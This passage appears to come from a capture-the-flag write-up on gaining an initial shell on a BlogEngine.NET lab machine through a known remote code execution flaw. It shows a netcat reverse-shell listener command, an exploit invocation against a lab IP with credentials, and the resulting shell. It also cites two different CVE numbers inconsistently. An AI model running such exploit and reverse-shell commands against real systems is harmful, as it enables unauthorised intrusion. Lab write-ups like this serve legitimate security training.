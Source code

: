 **Initial Shell Vulnerability Exploited**
We found the remote execution code for this version of the blog through searchsploit

![](img/20210208210442.png)

The full explanation can be found at https://nvd.nist.gov/vuln/detail/CVE-2019-10719

We start a listener for the exploit with: 
```
nc -lvnp 1337
```

![](img/20210208210511.png)

We run the exploit
```
python exploit.py -t 10.10.229.44 -l 10.9.1.171:1337 -u admin -p 1qaz2wsx
```

![](img/20210208210634.png)

We get a reverse shell

![](img/20210208210734.png)

We are logged in as user: ==iis apppool==
```
c:\windows\system32\inetsrv>whoami
==iis apppool\blog==
```

**Vulnerability Explanation:**
CVE-2019-10720
BlogEngine.NET 3.3.7.0 and earlier allows Directory Traversal and Remote Code Execution because file creation is mishandled, related to /api/upload and BlogEngine.NET/AppCode/Api/UploadController.cs. NOTE: this issue exists because of an incomplete fix for CVE-2019-6714. This particular exploit triggers an RCE through the theme cookie.
